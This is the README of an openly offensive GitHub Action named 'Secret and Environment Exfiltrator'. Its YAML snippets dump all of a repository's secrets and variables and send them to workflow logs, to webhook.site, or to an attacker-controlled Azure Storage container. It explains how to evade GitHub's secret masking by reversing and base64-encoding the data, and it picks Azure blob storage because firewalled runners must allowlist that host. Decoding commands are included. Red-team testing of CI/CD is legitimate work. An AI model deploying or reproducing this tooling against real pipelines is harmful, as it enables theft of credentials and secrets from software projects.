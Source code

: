 # Secret and Environment Exfiltrator

![Logo](resources/logo.jpg)

## Usage

### Exfil to GitHub Action logs (default behaviour)

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/secret-env-exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
```

### Exfil to webhook.site

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/secret-env-exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
          sink: 'webhook.site'
          webhook-site-id: '<site_id>'
```

This allows sending the data off to [https://webhook.site](https://webhook.site).

Going there will automatically generate an ID you can use for the input variable `webhook-site-id`.

> ⚠️ Beware: if you do not use the paid version of the service, the exfiltrated data will be readable for anyone with the correct ID (UUID), and for the owner of the site.

### Exfil to Azure Storage Account container

``` yml
on: push

jobs:
  exfil:
    runs-on: ubuntu-latest
    name: This will exfil secrets
    steps:
      - uses: offensive-actions/secret-env-exfiltrator@main
        with:
          vars: ${{ toJSON(vars) }}
          secrets: ${{ toJSON(secrets) }}
          sink: 'azure-storage-account'
          az-storage-account-name: '<storage_account_name>'
          az-storage-container-name: '<container_name>'
          az-storage-sas-token: '<sas_token>'
```

This option is available, since `*.blob.core.windows.net` has to be whitelisted even for firewall protected self-hosted runners, since GitHub uses Azure Storage Accounts for writing job summaries, logs, workflow artifacts, and caches (see [documentation](https://docs.github.com/en/actions/hosting-your-own-runners/managing-self-hosted-runners/about-self-hosted-runners#communication-between-self-hosted-runners-and-github)).

If your Storage Account has the globally unique name `examplename`, it will be available at `https://examplename.blob.core.windows.net`...

You should generate an SAS token that will allow for write-only for a limited time. This will generate one that is valid for 10 minutes:

``` bash
az storage container generate-sas --account-name <storage_account_name> --name <container_name> --permissions w --expiry $(date -u -d "+10 minutes" +"%Y-%m-%dT%H:%M:%SZ")
```

### Working with the output

The Action will exfiltrate a json that is first reversed character by character (to circumvent the masking of secrets) and then base64 encoded for the transport.

Follow these steps to make this blob readable:

``` bash
# make all of it readable
echo <output> | base64 -d | rev | jq

# show only the envvars that get a special treatment, since they are not in json format to begin with
echo <output> | base64 -d | rev | jq -r '.[0].envvars' | base64 -d
```

## Background

All the contexts: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs
Printing context to logs: https://docs.github.com/en/actions/writing-workflows/choosing-what-your-workflow-does/accessing-contextual-information-about-workflow-runs#about-contexts

## Next steps

Status:
* logs works on all OSs
* Azure storage works only on ubuntu; on windows there are "too many arguements for curl" and on macos there is a weird problem with awk - however, it worked for logs sink, so I dont get it.

1. If exfil fails to webhook or Azure, the action still succeeds, since the HTTP errors are not regarded as errors in general. Change that?
2. Fix Azure exfil for windows and macOS
